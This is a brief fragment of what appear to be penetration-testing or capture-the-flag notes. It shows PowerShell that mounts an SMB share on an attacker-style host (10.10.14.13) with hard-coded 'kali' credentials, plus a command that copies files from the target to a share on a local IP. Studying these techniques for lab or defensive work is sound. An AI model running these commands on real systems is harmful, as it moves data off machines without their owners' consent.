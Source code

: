 or 

```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('kali', $pass)
New-PSDrive -Name share1 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\visualstudio

cd share1:
```

### Transfer Files
```bash
# Remote to Local
cp .\example.txt \\<local-ip>\share\example.txt
```
